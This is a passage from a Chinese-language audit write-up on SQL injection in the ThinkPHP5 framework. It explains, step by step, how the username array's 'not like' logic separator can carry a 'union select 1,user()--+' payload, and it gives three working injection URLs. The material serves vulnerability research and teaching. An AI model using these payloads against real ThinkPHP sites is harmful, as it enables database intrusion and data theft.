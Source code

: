 ```
/public/index.php/index/index?username[0]=not like&username[1][0]=) union select 1,user()--+&username[1][1]=1&username[2]=2
```

![image-20210903155931301](ThinkPHP5之SQLI审计分析(二)_images/image-20210903155931301.png)

可以看到，`'2'`也就是username[2]分割了array[0]和array[1]，且array的元素都是会被单引号包裹起来的，所以攻击函数就不能放在array里，那么可以尝试一下，用`union select 1,user()--+`作为分割符 `$logic`，也就是将`username[2]=union select 1,user()--+`:

```
/public/index.php/index/index?username[0]=not like&username[1][0]=1&username[1][1]=2&username[2]=union select 1,user()--+
```

![image-20210903160448953](ThinkPHP5之SQLI审计分析(二)_images/image-20210903160448953.png)

可以看到`union select 1,user()--+`没有被单引号包裹，再闭合一下括号就完美了：

```
/public/index.php/index/index?username[0]=not like&username[1][0]=1&username[1][1]=2&username[2]=) union select 1,user()--+
```

![image-20210903160607039](ThinkPHP5之SQLI审计分析(二)_images/image-20210903160607039.png)
